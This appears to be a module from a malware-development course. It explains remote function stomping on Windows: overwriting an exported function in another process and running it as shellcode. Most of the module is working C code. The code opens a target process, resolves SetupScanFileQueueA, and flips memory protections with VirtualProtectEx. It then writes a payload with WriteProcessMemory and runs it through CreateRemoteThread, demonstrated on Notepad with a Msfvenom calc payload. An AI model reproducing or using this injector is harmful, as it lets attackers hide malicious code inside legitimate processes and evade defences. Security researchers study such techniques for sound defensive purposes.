





Introduction
The previous module introduced function stomping on the local address space of the process. In this module, the same implementation logic will be used to inject code into a remote process.
Remote Function Stomping
The DLLs that implement Windows API functions are shared across all processes that use them, therefore, the functions within the DLL have the same address in each process. However, the address of the DLL itself will differ between processes due to the different virtual address spaces. This means that while the address of the target function remains constant across different processes, the DLL which exports these functions may not be the same.
For example, two processes, A and B, will be sharing Kernel32.dll but the address of the DLL may be different within each process due to Address Space Layout Randomization. However, VirtualAlloc, which is exported from Kernel32.dll, will have the same address in both processes.
It is important to note that in order for function stomping to be performed remotely, the DLL that exports the targeted function must already be loaded into the target process. For example, to target the SetupScanFileQueueA function in a remote function, which is exported from Setupapi.dll, that DLL must already be loaded into the target process. If the remote process does not have Setupapi.dll loaded, the SetupScanFileQueueA function will not be present in the target process, resulting in an attempt to write to an address that does not exist.
Remote Function Stomping Code
The following code is similar to the local function stomping code, however, it uses different WinAPI functions to carry out code injection.
#define SACRIFICIAL_DLL "setupapi.dll"#define SACRIFICIAL_FUNC "SetupScanFileQueueA"// ...
BOOL WritePayload(HANDLE hProcess, PVOID pAddress, PBYTE pPayload, SIZE_T sPayloadSize) {
DWORD dwOldProtection = NULL;
SIZE_T sNumberOfBytesWritten = NULL;
if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_READWRITE, &dwOldProtection)) {
printf("[!] VirtualProtectEx [RW] Failed With Error : %d \n", GetLastError());
return FALSE;
}
if (!WriteProcessMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten) || sPayloadSize != sNumberOfBytesWritten){
printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
printf("[!] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("[!] VirtualProtectEx [RWX] Failed With Error : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}
int wmain(int argc, wchar_t* argv[]) {
HANDLE hProcess = NULL,
hThread = NULL;
PVOID pAddress = NULL;
DWORD dwProcessId = NULL;
HMODULE hModule = NULL;
if (argc < 2) {
wprintf(L"[!] Usage : \"%s\" <Process Name> \n", argv[0]);
return -1;
}
wprintf(L"[i] Searching For Process Id Of \"%s\" ... ", argv[1]);
if (!GetRemoteProcessHandle(argv[1], &dwProcessId, &hProcess)) {
printf("[!] Process is Not Found \n");
return -1;
}
printf("[+] DONE \n");
printf("[i] Found Target Process Pid: %d \n", dwProcessId);
printf("[i] Loading \"%s\"... ", SACRIFICIAL_DLL);
hModule = LoadLibraryA(SACRIFICIAL_DLL);
if (hModule == NULL) {
printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
return -1;
}
printf("[+] DONE \n");
pAddress = GetProcAddress(hModule, SACRIFICIAL_FUNC);
if (pAddress == NULL) {
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
return -1;
}
printf("[+] Address Of \"%s\" : 0x%p \n", SACRIFICIAL_FUNC, pAddress);
printf("[#] Press <Enter> To Write Payload ... ");
getchar();
printf("[i] Writing ... ");
if (!WritePayload(hProcess, pAddress, Payload, sizeof(Payload))) {
return -1;
}
printf("[+] DONE \n");
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
hThread = CreateRemoteThread(hProcess, NULL, NULL, pAddress, NULL, NULL, NULL);
if (hThread != NULL)
WaitForSingleObject(hThread, INFINITE);
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}Demo
Targeting Notepad.exe process.

Retrieving SetupScanFileQueueA's address.

The original bytes of the SetupScanFileQueueA function.

Replacing the function's bytes with the Msfvenom calc payload.

Running the payload.
